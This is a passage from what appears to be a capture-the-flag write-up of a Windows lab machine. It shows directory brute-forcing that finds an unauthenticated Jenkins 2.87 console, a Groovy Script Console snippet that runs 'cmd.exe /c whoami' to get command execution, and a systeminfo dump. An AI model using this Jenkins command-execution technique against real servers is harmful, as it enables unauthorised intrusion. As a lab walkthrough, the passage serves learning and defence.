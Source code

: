 ### 2. Enumeration
Did some dirbusting first up on all the web servers and got a few interesting results. Among them is a /askjeeves directory on port 50000. Going to it, there is a Jenkins instance which does not require any authentication. Jenkins as an automation server has management capabilities for running scripts, providing an instant way to get command execution. The version is 2.87.
  
To test script command execution, I navigate to the Script Console in the management panel and enter the following code using the Groovy scripting language. Then click "Run".
```groovy
String result = """ cmd.exe /c whoami """
println result.execute().text
```
The result is printed below the console as "jeeves\kohsuke".  
Below is some more enumeration, as I was originally thinking about dropping a meterpreter payload to fix my (below) shell issues, didnt end up doing it.
```shell
Host Name:                 JEEVES
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.10586 N/A Build 10586
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00331-20304-47406-AA297
Original Install Date:     10/25/2017, 4:45:33 PM
System Boot Time:          5/20/2021, 10:00:23 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,097 MB
Virtual Memory: Max Size:  2,687 MB
Virtual Memory: Available: 1,708 MB
Virtual Memory: In Use:    979 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 10 Hotfix(s) Installed.
                           [01]: KB3150513
                           [02]: KB3161102
                           [03]: KB3172729
                           [04]: KB3173428
                           [05]: KB4021702
                           [06]: KB4022633
                           [07]: KB4033631
                           [08]: KB4035632
                           [09]: KB4051613
                           [10]: KB4041689
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
```